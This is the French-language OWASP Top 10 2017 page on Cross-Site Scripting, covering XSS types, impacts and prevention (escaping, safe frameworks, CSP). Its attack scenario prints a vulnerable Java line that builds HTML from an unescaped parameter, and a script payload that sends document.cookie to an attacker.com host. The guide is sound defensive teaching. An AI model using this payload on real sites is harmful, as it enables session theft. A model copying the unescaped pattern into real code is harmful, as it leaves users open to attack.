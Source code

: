 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs des victimes :

* **XSS Réfléchi** : L'application ou l'API copie les entrées utilisateurs, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et/ou du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké** : L'application ou l'API stocke des entrées utilisateurs, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voir critique.
* **XSS basé sur DOM** : Les environnements Javascript, les applications monopage, et les API qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des API Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela :

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, Javascript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut pas être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux API du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense en profondeur limitant les attaques XSS. Cela sera efficace, s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (ex : écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1** : L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement :

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par :
`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note** : Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti-falsification de requête intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Contrôles Proactifs : Encoder les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Contrôles Proactifs : Valider les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Standard de Vérification de la Sécurité des Applications : V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Guide de Test : Test des XSS Réfléchis](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Guide de Test : Test des XSS Stockés](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Guide de Test : Test des XSS basés sur DOM](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Aide-Mémoire : Prévention du XSS ](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Aide-Mémoire : Prévention du XSS basé sur DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Aide-Mémoire : Contournements de Filtres XSS ](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Projet Java Encodeur](https://owasp.org/www-project-java-encoder/)

### Externes

* [CWE-79 : Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger : Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
